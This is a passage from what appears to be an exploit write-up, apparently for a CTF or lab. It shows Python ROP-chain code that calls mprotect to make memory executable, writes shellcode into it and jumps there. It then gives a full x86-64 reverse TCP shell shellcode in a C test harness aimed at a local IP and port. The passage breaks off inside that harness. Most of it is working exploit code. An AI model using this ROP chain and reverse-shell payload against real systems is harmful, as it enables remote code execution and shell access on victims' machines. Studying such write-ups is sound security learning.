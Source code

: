 ```python
        """Yield successive n-sized chunks from l."""
        for i in range(0, len(l), n):
            yield l[i:i + n]

    ropchain = ""
    for counter, i in enumerate(chunks(data, 8)):
        ropchain += p64(pop_rsi)       # Pop the target address into RSI
        ropchain += p64(address_base + (counter * 8)) # Calculate the target
        ropchain += p64(pop_rdx)       # Pop the 8 bytes of data into RDX
        ropchain += i.ljust(8, "\x90") # Make sure the data is aligned on 8 bytes
        ropchain += p64(write_gadget)  # Trigger the write

    return ropchain

def main():
    ...
    # The main ROP chain
    # This will do the following things:
    #  1. mprotect(mprotect_segment, 0x500, PROT_READ | PROT_WRITE | PROT_EXEC)
    #  2. copy shellcode into shellcode_segment
    #  3. jump to shellcode

    # Setup mprotect ROP chain
    payload += p64(pop_rdi)          # Pop the first argument into RDI
    payload += p64(mprotect_segment)
    payload += p64(pop_rsi)          # Pop the second argument into RSI
    payload += p64(mprotect_size)
    payload += p64(pop_rdx)          # Pop the third argument into RDX
    payload += p64(mprotect_prot)
    payload += p64(mprotect_plt)     # Run the mprotect function

    # Write the shellcode into our newly mprotected segment
    payload += generate_mov(mprotect_segment, shellcode)

    # Jump to shellcode
    payload += p64(mprotect_segment)
    ...
```

## Picking the Shellcode

An x86-64 reverse TCP shell by Russell Willis ([Shellstorm
Link](http://shell-storm.org/shellcode/files/shellcode-857.php)) was chosen for
adaptation. A test harness was setup:

```c
#include <stdio.h>

#define IPADDR "\x7f\x01\x01\x01" /* 127.1.1.1 */
#define PORT "\x05\x39" /* 1337 */

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x4d\x31\xc0\x6a"
"\x02\x5f\x6a\x01\x5e\x6a\x06\x5a\x6a\x29\x58\x0f\x05\x49\x89\xc0"
"\x48\x31\xf6\x4d\x31\xd2\x41\x52\xc6\x04\x24\x02\x66\xc7\x44\x24"
"\x02"PORT"\xc7\x44\x24\x04"IPADDR"\x48\x89\xe6\x6a\x10"
"\x5a\x41\x50\x5f\x6a\x2a\x58\x0f\x05\x48\x31\xf6\x6a\x03\x5e\x48"
"\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x48\x31\xff\x57\x57\x5e\x5a"
"\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xef\x08\x57\x54"
"\x5f\x6a\x3b\x58\x0f\x05";

int
main(void)
```